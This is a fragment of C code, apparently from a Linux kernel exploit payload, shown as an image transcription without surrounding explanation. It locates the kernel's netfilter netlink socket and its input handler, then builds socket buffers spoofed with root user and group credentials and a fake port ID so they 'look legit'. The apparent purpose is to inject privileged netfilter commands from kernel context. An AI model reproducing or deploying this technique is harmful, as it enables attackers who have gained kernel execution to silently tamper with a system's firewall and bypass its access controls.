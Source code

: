 ```c
	err = -ENOENT;

	// Check to see if the handler is registered
	if (!nl_table[NETLINK_NETFILTER].registered) {
		netlink_table_ungrab();
		goto done;
	}

	// Grab the kernel socket
	kern_sock = netlink_lookup(&init_net, NETLINK_NETFILTER, 0);
	if (!kern_sock) {
		netlink_table_ungrab();
		goto done;
	}

	// Grab that .input handler
	handler = nlk_sk(kern_sock)->netlink_rcv;
	if (!handler) {
		netlink_table_ungrab();
		goto done;
	}

	// Ungrab the table we're done with it
	netlink_table_ungrab();

	// Pre-set
	err = -ENOMEM;

	// Create all of the socket buffers we need and store them
	for (i = 0; i < LF_MAX_NUM_ENVS; i++) {
		skb = alloc_skb(LF_MAX_ENV_LEN, GFP_KERNEL);
		// If we failed, unroll all the previous allocations
		if (!skb) {
			while (--i >= 0) {
				kfree_skb(skbs[i]);
				skbs[i] = NULL;
			}
			goto done;
		}

		// Initialize what we need to look legit
		skb->pkt_type = PACKET_HOST;
        skb->sk = kern_sock;
		NETLINK_CB(skb).portid = 0x1337;
		NETLINK_CB(skb).dst_group = 0;
		NETLINK_CB(skb).creds.uid = GLOBAL_ROOT_UID;
		NETLINK_CB(skb).creds.gid = GLOBAL_ROOT_GID;
		NETLINK_CB(skb).flags = NETLINK_SKB_DST;

		// Store the skb
		skbs[i] = skb;
	}

	// We are so done dude, it worked
	err = 0;

done:
	return err;
}
```
